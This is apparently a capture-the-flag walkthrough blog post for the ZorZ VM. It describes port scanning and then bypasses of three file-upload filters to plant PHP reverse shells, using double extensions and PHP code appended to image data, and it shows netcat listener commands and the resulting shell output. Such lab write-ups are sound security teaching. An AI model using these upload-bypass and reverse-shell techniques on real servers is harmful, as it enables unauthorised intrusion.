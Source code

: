 ```yaml
---
layout: blog_item
title: "Zorz Walkthrough"
date: "2015-07-01"
author: Dhruv Ambaliya
description: 'Zorz - Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

Welcome to the ZorZ VM Challenge

This machine will probably test your web app skills once again. There are 3 different pages that should be focused on (you will see!) If you solve one or all three pages, please send me an email and quick write up on how you solved each challenge. Your goal is to successfully upload a webshell or malicious file to the server. If you can execute system commands on this box, thats good enough!!! I hope you have fun!

### Port Scanning

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 10.0.1.110

{% endhighlight %}


### Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
               <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.4.7 ((Ubuntu))</p></pc>
           </td>
        </tr>
        </tbody>

</table>
</div>

### HTTP Enumeration

Enumeration of port 80, discovered <code>login.php</code>:

![dirbuster](/img/blog/zorz/dirbuster.png)

## Level 1

The web application has no filter protection, so uploading a PHP shell is possible.

![uploader1](/img/blog/zorz/uploader1.png)

PHP Shell Upload:

![php shell upload](/img/blog/zorz/file-upload.png)

The location <code>/uploads2</code> was previously disclosed by **Dirbuster**, <code>/uploads1</code> was discovered manually (logical guess).

![php shell execution](/img/blog/zorz/uploads1.png)

Reverse shell:

{% highlight bash %}

[root:~]# nc -n -v -l -p 443                               
listening on [any] 443 ...
connect to [10.0.1.110] from (UNKNOWN) [10.0.1.111] 33115
Linux zorz 3.13.0-45-generic #74-Ubuntu SMP Tue Jan 13 19:37:48 UTC 2015 i686 i686 i686 GNU/Linux
 16:21:31 up 1 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$

{% endhighlight %}

Level 1 complete.

## Level 2

The initial attempt to upload the previous shell failed with the error message:

![php shell upload fail](/img/blog/zorz/upload2-fail.png)

Several attempts were then made to upload shells with various extensions such as <code>shell.png.php</code> , <code>shell.php.png</code> etc to bypass the web application filtering, all attempts to bypassed the filtering failed.

### Burp Suite - PHP Shell Injection in an Image file

It was apparent the web application had a mechanism for image file validation, several attempts were made to inject the php shell code into the image file. The solution was to inject the code at the end of the image data.

The file extension also needed modifying to <code>.php.jpg</code>, this appeared to force the web server to process the file, likely due to poorly configured Apache MIME types.

![Burp Suite shell injection in an image](/img/blog/zorz/burp-php-shell-injection-in-an-image.png)

Image uploaded successfully.

![Shell Upload](/img/blog/zorz/uploaded-shell.png)

Execution of image from <code>/uploads2</code>

![upload dir](/img/blog/zorz/dir.png)

### Reverse Shell:

{% highlight bash %}

[root:~]# nc -n -v -l -p 443
listening on [any] 443 ...
connect to [10.0.1.110] from (UNKNOWN) [10.0.1.111] 33118
Linux zorz 3.13.0-45-generic #74-Ubuntu SMP Tue Jan 13 19:37:48 UTC 2015 i686 i686 i686 GNU/Linux
 17:02:32 up 42 min,  0 users,  load average: 0.00, 0.01, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$

{% endhighlight %}

Level 2 complete.

## Level 3

Level 3 was beaten simply by renaming the php reverse shell to <code>php-reverse-shell.php.png</code>, this was enough to bypass the filtering.

![Level 3](/img/blog/zorz/level3.png)

An alternative solution would of been to use burp to upload the file + change the content type.

## Flag

{% highlight bash %}

$ cd l337saucel337
$ ls
SECRETFILE
$ cat SE
cat: SE: No such file or directory
$ cat SECRETFILE
Great job so far. This box has 3 uploaders.

The first 2 are pure php, the last one is php w/jquery.

To get credit for this challenge, please submit a write-up or instructions
on how you compromised the uploader or uploaders. If you solve 1, 2, or all
of the uploader challenges, feel free to shoot me an email and let me know!

Thanks for playing!
http://www.top-hat-sec.com
$

{% endhighlight %}

Level 3 complete.

Thanks for the VM :)
